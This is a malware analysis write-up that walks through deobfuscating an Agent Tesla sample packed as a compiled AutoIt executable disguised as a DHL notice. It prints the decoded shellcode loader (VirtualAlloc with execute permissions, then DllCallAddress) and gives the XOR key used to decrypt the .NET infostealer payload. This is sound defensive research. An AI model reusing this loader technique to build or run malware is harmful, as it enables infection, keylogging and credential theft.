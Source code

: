 ## Agent Tesla AutoIt Deobfuscation

Just a demo on how to unpack Agent Tesla AutoIt compiled executables.

SHA256: afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/2414e7d0-34ff-4faf-9654-36835806c848)

`DHL Arrival Notice.exe` looks like a compiled AutoIt script, as Detect-It-Easy suggested and mentions of it in IDA.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/818c3004-a1bf-41b7-9bf2-6ac2ec4b8e42)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/619e0b78-8deb-46f2-9881-217d66dba20c)

[Exe2Aut](https://exe2aut.com/exe2aut-converter/) is able to decompile this back into a .au3 file for easier analysis. But the script still looks highly obfuscated, with 2655 lines of code.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/99763024-7fd4-48ef-bda6-e37c745c8443)

Majority of the contents especially the for-loop constructs in the middle are dummy code. 

We can see 2 embedded files `renowner` and `palladize` are extracted and moved into the user’s Temp directory. 

I opened them up in HXD, `palladize` looks weird, and `renowner` looks like encrypted.

There’s a few reference to the function `x30qqzpyj` which looks like it is being used for string decryption, since the return values are used as parameters to calls like `Execute`, `DllCall`, etc. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/eac0cdb1-3b1c-4289-8ced-7c4f31990b96)

We can try to translate this function into Python, simulate and print out the results of the decryption for every call we see to it in the script:

```python
import re

def x30qqzpyj(p, b):
    d = len(b)
    v = len(p)
    k = [None] * v
    a = [None] * v
    m = ""

    for h in range(1, v + 1):
        k_index = (ord(b[(h - 1) % d]) * h % v)
        while k[k_index] is not None:
            k_index = (k_index + 1) % v
        k[k_index] = h - 1
    
    for h in range(1, v + 1):
        a[k[h - 1]] = p[h - 1]
    
    m = "".join(a)
    
    # XOR encryption
    j = ""
    for h in range(1, len(m) + 1):
        t = ord(m[h - 1])
        m_ord = ord(b[(h - 1) % d])
        j += chr((t - 5) ^ m_ord)
    
    return j

file_content = ""
with open("afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07.au3", "r") as file:
    file_content = file.read()

# Regex to find function calls
pattern = r"x30qqzpyj\((\".*?\"),\s*(\".*?\")\)"
matches = re.findall(pattern, file_content)

# Execute the function with the parameters found
for match in matches:
    param1 = match[0].strip("\"")  # Remove the double quotes if necessary
    param2 = match[1].strip("\"")
    result = x30qqzpyj(param1, param2)
print(f"Parameters: {param1}, {param2} -> Result: {result}")
```

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/fe861d58-bb1b-4f3a-a3d3-8c7efeaf7c68)

Sweet! Now we can plug them into the .au3 script.

```autoit
FileInstall("renowner", @TempDir & "\renowner", 1)
FileInstall("palladize", @TempDir & "\palladize", 1)
Global $o30ytu4gil = Execute('FileRead(FileOpen(@TempDir  & "\palladize"))')
$o30ytu4gil = Execute('StringReplace($O30ytU4giL, "8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88", "")')
$l33eqfulh = DllCall("kernel32", "ptr", "VirtualAlloc", "dword", 0, "dword", BinaryLen($o30ytu4gil), "dword", 0x3000, "04"), "dword", 0x40)
$l33eqfulh = $l33eqfulh[0]
$b374rm9zkrm = DllStructCreate([ & BinaryLen($o30ytu4gil) & ], $l33eqfulh)
DllStructSetData($b374rm9zkrm, 1, $o30ytu4gil)
DllCallAddress("int", $l33eqfulh + 9136)
```

We can see that the beginning of the `palladize` file which starts with `8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88` is removed entirely. Then, a memory allocation with  `PAGE_EXECUTE_READWRITE` permissions, a structure created at the allocated memory address, storing the binary data of `$o30ytu4gil`. Then, it looks like it is calling a function at offset `9136` or `0x23B0`of the memory allocation, so `palladize` probably shellcode. 
Here's what `palladize` looks like with the bytes at the beginning removed:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/298bbbac-29ab-4295-a4d6-85d952f60889)

Looks like the decoded text is still in hex representation. We can convert them into actual hex values first and then open it up in IDA. The entry point would be at offset `0x23B0`.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/7b001c2e-4cbc-4df7-a2a2-64e64801d10d)

Right away, there is a reference to the other file `renower`, which was dropped in the Temp directory. A constant `AIAHL068594BNNETB8SPTXO` that looks like a key is also copied into `v9`, and passed into `sub22E0`. `sub22E0` just looks like a simple XOR decryption loop. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/89cd4ac7-4d10-43cb-87b0-ce68545e7250)

There are a bunch of API resolving routines before this, but we can just assume that the file `renowner` can be decrypted with the key. Sure enough, it’s another MZ file! DIE recognized it as a .NET file.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/4fcc56d8-8e90-4656-8da6-3bd1fdc160bb)

Saving the file and opening up in dnSpy, we can see the code for Agent Tesla, some keylogging capabilities:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/7068ed61-f839-4661-b5b3-78c7e08bcf25)

And its config in the `Stu4Un2` class, where data is exfiltrated via SMTP.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a6943b1-8491-4116-9e05-531ae154285d)
